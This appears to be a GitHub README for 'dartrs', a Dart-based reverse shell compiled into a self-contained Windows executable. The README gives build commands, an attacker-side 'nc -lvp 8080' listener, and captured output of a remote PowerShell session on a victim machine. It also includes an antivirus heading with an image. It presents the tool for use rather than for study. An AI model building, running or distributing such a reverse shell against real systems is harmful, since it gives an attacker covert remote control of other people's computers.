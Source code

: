# dartrs

portable dart based reverse shell (self-contained executable)

**Build**

```
root@kali:/opt/dartrs# apt-get install dart

```
- https://dart.dev/get-dart

**Usage**

create a self-contained binary. (cross compilation is not support by dart2native yet)
- https://medium.com/dartlang/dart2native-a76c815e6baf

```
C:\Users\IEUser\Desktop\dart2native dartrs.dart
Generated: c:/users/ieuser/desktop/dartrs.exe

```

```
root@WOPR-KALI:~# nc -lvp 8080
listening on [any] 8080 ...
connect to [192.168.1.99] from WOPR-KALI [192.168.1.99] 33474
whoami
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\IEUser\Desktop> whoami
msedgewin10\ieuser

```

**AV**

![github](https://user-images.githubusercontent.com/56988989/69837691-ead49600-1247-11ea-9c3a-cb795721b187.jpg)


**Limitations**

Code signing issue. (https://github.com/dart-lang/sdk/issues/39106)

Enjoy~
